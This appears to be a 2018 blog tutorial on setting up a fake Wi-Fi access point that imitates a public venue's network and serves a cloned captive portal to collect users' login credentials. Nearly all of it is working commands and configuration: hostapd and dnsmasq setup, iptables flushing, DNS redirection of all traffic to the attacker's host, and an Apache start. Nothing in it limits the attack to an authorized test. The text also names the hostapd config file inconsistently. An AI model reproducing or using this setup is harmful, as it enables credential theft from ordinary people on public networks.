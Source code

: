 ```yaml
---
layout: post
comments: true
title:  "Building a Fake Access Point and Using a Captive Portal to Get Login Credentials"
date:   2018-12-23 21:26:27
categories: Kali, DHCP, hostapd, DNS, apache, wireshark
---
```


 Note: In this project I will presume that you have already cloned a captive portal of an open business network that you usually would see in airports, hotel lobbies, coffee shops, and other venues that offer free Wi-Fi hot spots. Also, I will presume you have a wireless adapter that supports monitor mode and packet injection with Kali Linux installed (or other penetration testing OS installed). Yayy! Now let's move on to the main course of this documentation.

Below I have documented the process on how to manually create a fake Access Point (AP). However, in order to build a fake AP, one needs to understand the main components of a wifi network. These components are:

1. A wifi card (router) in order to broadcast the signal of an AP. (I will use hostapd tool to broadcast the signal)
2. A DHCP server to give IP addresses to clients that connect to our AP. (I will use dnsmasq tool as DHCP server)
3. A DNS server to handle DNS requests. (I will use dnsmasq tool as a DNS server)
* PS: dnsmasq tool is rather convenient to use, since it can be used as a DHCP and DNS server at the same time!

* To install hostapd and dnsmasq, type the below command in terminal.  
```
apt-get install hostapd dnsmasq
```

1. After installing hostapd and dnsmasq, connect your wireless adapter (ifconfig to confirm this). Once adapter is connected do:
```
service network-manager stop
```
(Reason to stop network manager is so that it does not prevent the fake AP from broadcasting a wifi signal)

2. Next, we should enable IP forwarding so that packets can flow through the computer without being dropped. Not only that, we must also delete any IP table rules that might interfere with what we are trying to achieve. Hence, the below commands must be entered in the terminal to clear any firewall rules that might be redirecting packets to somewhere else.
```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
iptables -P FORWARD ACCEPT
```
(By default there should not be any IP table rules, however to be on the safe side, if a program modifies and adds IP tables rules then the fake AP will fail, hence the following commands are a precaution.)

3. Next, we will configure dnsmasq to be used as a DHCP server and DNS server. Here, copy the below code and save it in a file called dnsmasq.conf
```
#Set the wifi interface
interface=wlan0

#Set the ip range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,8h

#Set the gateway IP address
dhcp-option=3,10.0.0.1

#Set dns server address
dhcp-option=6,10.0.0.1

#Redirect all requests to 10.0.0.1
address=/#/10.0.0.1
```
(The first line that says interface can be found by doing ifconfig and this interface is the one that you wireless adapter uses. The second line states that the range is from 10 to 100 and each ip can last for 8 hours. The third line states the IP of wlan0, usually the 1st IP is used for the the gateway/router and the same config is used for the fourth line. The fifth line states to redirect any request to router's IP)

4. In terminal type the following command to start DHCP server and DNS server.
```
dnsmasq -C /root/Downloads/fake-ap/dnsmasq.conf
```
(Note: make sure you change the below path to where you saved the dnsmasq.conf file)

5. Next, we will configure hostapd to start fake AP, in order to allow people to connect to it. Here, copy the below code and save it in a file called dnsmasq.conf
```
#Set wifi interface
interface=wlan0

#Set network name
ssid=FakeAP

#Set channel
channel=1

#Set driver
driver=nl80211
```
(Note: when you set the network name, make sure it has the same name as the captive portal and you can feel free to add a version to it like "FakeAP V2")

6. In terminal type the following command to start hostapd and to begin broadcasting a signal.
```
hostapd /root/Downloads/fake-ap/hostapd.conf -B
```
(Here, -B is used so that it will execute the above command in the background)

7. Next, we will configure wlan0 (or whatever interface that your running) to have an IP address of 10.0.0.1
```
ifconfig wlan0 10.0.0.1 netmask 255.255.255.0
```
(Note: change interface to the one you are using, in my case its wlan0. The reason we use 10.0.0.1 is because this is the ip address that is used by the dnsmasq.conf and all the requests is configured to go to this IP. Here, 255.255.255.0 address is the most common subnet mask used on computers connected to Internet Protocol (IPv4) networks)

8. Start Web server to launch the cloned captive portal. Hence, when the client clicks on the fake AP the captive portal web page is displayed.
```
service apache2 start
```
